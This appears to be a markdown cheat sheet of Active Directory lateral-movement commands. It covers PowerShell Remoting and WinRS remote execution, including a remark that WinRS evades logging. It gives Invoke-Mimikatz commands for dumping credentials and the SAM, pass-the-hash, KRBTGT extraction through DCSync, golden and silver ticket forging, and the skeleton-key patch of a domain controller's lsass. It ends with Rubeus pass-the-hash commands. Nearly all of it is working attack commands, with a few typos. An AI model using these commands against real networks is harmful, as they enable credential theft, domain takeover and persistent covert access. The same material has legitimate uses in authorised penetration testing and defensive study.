## AL Lateral Movement

- [PowerShell Remoting](#powershell-remoting)
    + [Enable PowerShell Remoting](#enable-powershell-remoting)
    + [Create Remote Session](#create-remote-session)
    + [Entering into Existing PSSession](#entering-into-existing-pssession)
    + [Remote Execution](#remote-execution)
- [WinRS](#winrs)
    + [Execute Remote Command](#execute-remote-command)
- [MimiKatz PowerShell Port](#mimikatz-powershell-port)
    + [Dump Credentials on Local Machine](#dump-credentials-on-local-machine)
    + [OverPass the Hash (OPTH](#overpass-the-hash--opth)
    + [Get KRBTGT Hash](#get-krbtgt-hash)
    + [Credentials from Credential Vault](#credentials-from-credential-vault)
    + [Patch a DC `lsass` process** allowing to use any user with single password. DA privileges are required.](#patch-a-dc--lsass--process---allowing-to-use-any-user-with-single-password-da-privileges-are-required)
    + [Golden Ticket](#golden-ticket)
    + [Silver Ticket](#silver-ticket)
    + [Skeleton Key Attack](#skeleton-key-attack)
- [Rubeus](#rubeus)
    + [OverPass The Hash](#overpass-the-hash)


### PowerShell Remoting
---
Uses TCP-5985. T
```powershell
# Check computers where PS Remoting can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```

##### Enable PowerShell Remoting  
```powershell
C:> Enable-PSRemoting 
```
##### Create Remote Session 
```powershell
# Create a Session in Local Computer
C:> New-PSSession

# Create Session on Remote Computer
C:> $remote_computer = New-PSSesion -ComputerName <computer>

# Create Session on Multiple Computers
C:> $s1, $s2, $s3 = New-PSSession -ComputerName Server01,Server02,Server03
```
##### Entering into Existing PSSession
```powershell
# A Completelly New Session to Computer
C:> Enter-PSSession -ComputerName <computer>

# A session created previously with New-PSSession
C:> $remote_computer = New-PSSesion -ComputerName <computer>
C:> Enter-PSSession -Session $remote_computer
```
##### Remote Execution
```powershell
# Remote Execution With Credentials
c:> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
C:> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
C:> Invoke-Command -ComputerName <computer> -Credential $Cred -ScriptBlock {whoami}

# Run Local Script in Remote Computer
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName <computer>
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName (Get-Content <list_of_servers>)

# Run Command (Script Block) on Remote Computer
C:> Invoke-Command -ComputerName <host> -Credential <domain>\<user> -ScriptBlock {whoami;hostname}
C:> Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Execute Locally Loaded Function in Remote Computer
C:> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <host>

# Persistent Connection, Series of Commands Sharing Data
C:> $s = New-PSSession -ComputerName <computer>                             # Without this, 2 lines below wouldn't share data on $s
C:> Invoke-Command -Session $s -ScriptBlock {$p = Get-Process PowerShell}
C:> Invoke-Command -Session $s -ScriptBlock {$p.VirtualMemorySize}          # $sp is from previous command

```

### WinRS
---
```powershell
# Check computers where WinRS can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```
Uses same port as PSRemoting, and evades Remoting Logging.
##### Execute Remote Command
```powershell
# Use `cmd`as command to get a shell
C:> winrs -remote:<computer> -u:<domain>\<user> -p:<password> <command>
```

### MimiKatz PowerShell Port
---
Requires Local Admin Privileges on computer where is run.
```powershell
C:> . .\Invoke-Mimikatz.ps1
```
##### Dump Credentials on Local Machine
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
##### Extract credentials from SAM
```powershell
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```
##### OverPass the Hash (OPTH
```powershell
# Starts Powershell with logon type 9
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<fqdn_domain> /aes256:<user_aes256key> /run:cmd.exe"'
```
##### Get KRBTGT Hash
```powershell
# Run on DC, Domain Admin privileges required
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <dc-hostname>

# DCSync: Domain Admin privileges required to run 
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```
##### Credentials from Credential Vault
```powershell
# Interesting Credentials are stored here, like credentials for scheduled tasks
C:> Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
##### Patch a DC `lsass` process** allowing to use any user with single password. DA privileges are required.
```powershell
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname_full_FQDN>
```
##### Golden Ticket
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:<username> /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:<krbtgt_aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# For Administrator User
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:krbtgt_aes_key> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
##### Silver Ticket
```powershell
# Get Privileges to access HOST service as Administrator con host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '0"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# With this two tickets, can execute WMI commands on host
```
##### Skeleton Key Attack
```powershell
# To run on DC. Allows init session with password mimikatz
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```
### Rubeus
---
##### OverPass The Hash
```powershell
C:> Rubeus.exe asktgt /user:<username> /aes256:<aes256_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
C:> Rubeus.exe asktgt /user:<username> /ntlm:<ntlm_rc4_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```

